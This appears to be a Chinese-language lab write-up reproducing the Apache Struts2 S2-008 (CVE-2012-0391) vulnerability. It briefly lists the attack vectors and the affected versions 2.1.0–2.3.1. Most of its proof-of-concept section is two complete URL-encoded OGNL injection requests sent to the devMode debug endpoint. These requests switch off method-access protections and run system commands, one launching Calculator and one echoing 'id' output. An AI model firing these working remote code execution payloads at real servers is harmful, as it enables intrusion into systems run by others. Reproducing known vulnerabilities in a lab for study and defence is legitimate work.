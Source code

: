 （CVE-2012-0391）s2-008
=======================

一、漏洞简介
------------

主要是利用对传入参数没有严格限制，导致多个地方可以执行恶意代码第一种情况其实就是S2-007，在异常处理时的OGNL执行第二种的cookie的方式，虽然在struts2没有对恶意代码进行限制，但是java的webserver（Tomcat），对cookie的名称有较多限制，在传入struts2之前就被处理，从而较为鸡肋第四种需要开启devModedebug模式

二、漏洞影响
------------

2.1.0 - 2.3.1

三、复现过程
------------

复现采用的是第四种devMode的debug模式，造成的任意代码执行

### POC

第一个vulhub给的poc 不好使呀 java.lang.UNIXProcess\@493c1254

    http://localhost:8080/S2-008/devmode.action?debug=command&expression=(%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false%22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@java.lang.Runtime@getRuntime%28%29.exec%28%22open%20%2fApplications%2fCalculator.app%22%29)

有回显

    /S2-008/devmode.action?debug=command&expression=%28%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false%22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27id%27%29.getInputStream%28%29%29%29
